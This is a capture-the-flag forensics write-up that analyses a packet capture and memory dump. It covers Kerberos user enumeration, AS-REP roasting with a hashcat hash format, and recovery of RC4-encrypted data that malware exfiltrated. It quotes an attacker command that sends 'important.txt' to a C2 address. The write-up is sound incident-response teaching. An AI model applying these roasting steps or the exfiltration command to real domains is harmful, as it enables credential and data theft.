


# Poor Yooz

## Overview
We were provided with a packet capture and a memory dump of the victim machine. The description outlines a timeline of the attack, and the attack vector can be understood from the packet capture.

## Solution
- Wireshark shows a significant amount of Kerberos traffic in the domain `BNDOM.CORP`, indicating a possible Active Directory attack.  

- A large number of **AS-REQ** packets contain different usernames, most of which fail. Sending such requests in a short period strongly suggests a brute-force attack aimed at discovering valid domain users. One AS-REQ request with the username `r.youz` receives a different Kerberos error: `KRB5KRB_ERR_RESPONSE_TOO_BIG`, which indicates that a valid username has been found.  

- Further investigation of this user reveals `KRB_AS_REP` messages containing the TGT and a session key encrypted with the user’s NT hash. This makes it possible to recover the user's password via brute force. This technique is known as [AS-REP Roasting](https://www.thehacker.recipes/ad/movement/kerberos/asreproast), and it was used by the attacker to gain a foothold in the domain.

  From the capture, we can reconstruct a hash that can be cracked using `hashcat`. The format is: `$krb5asrep(hashcat type)$23(etype)$(first 32 bytes of encrypted data)$(rest of the cipher)`
  The required information is extracted from the `AS-REP` packet.

- Now we have valid credentials, but no flag yet. Next, we analyze the memory dump using the `Volatility` tool.

- A suspicious executable named `cl.exe` is found on the desktop of user `r.youz`. From the PowerShell history, the following command was executed: `cl.exe 10.10.99.1 1245 important.txt V3RYEZISNTIT`

  The IP address matches the one observed in the packet capture attempting domain enumeration. This suggests it is also used as a C2 server for possible data exfiltration (the file `important.txt`). The command includes a password likely used for encryption. To confirm this, we reverse engineer the binary.

- Reversing the binary confirms that the password is used for key derivation to encrypt data before exfiltration. The data is first compressed into a `zip` archive, then encrypted using **RC4**, and finally sent to the C2 server over the `UDP` protocol.

- Can we recover the exfiltrated data even after deletion? Yes.

In incident response, recovering data is crucial. Although the exfiltrated data was not captured directly, the memory dump still contains the relevant packets. To recover them, we rely on two facts:
1. The data is in ZIP format, which has known [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures).
2. RC4 is a **stream cipher**, meaning each byte is encrypted independently.

Therefore, the encrypted data retains a detectable pattern derived from the encrypted ZIP magic bytes. By encrypting the ZIP magic bytes using the same logic and password found in the malware, we can search for and carve the corresponding encrypted data from the memory dump. The extracted data can then be decrypted. The file `important.txt` contains the first part of the flag.

- The `important.txt` file includes a link to an online file that is password-protected. Considering **password reuse**, we can try the password recovered earlier. This successfully reveals the second part of the flag.

## Lessons Learned
- Active Directory domain controllers should not be accessible to all network users.
- Strong password policies must be enforced.
- Avoid password reuse; use a password manager instead.

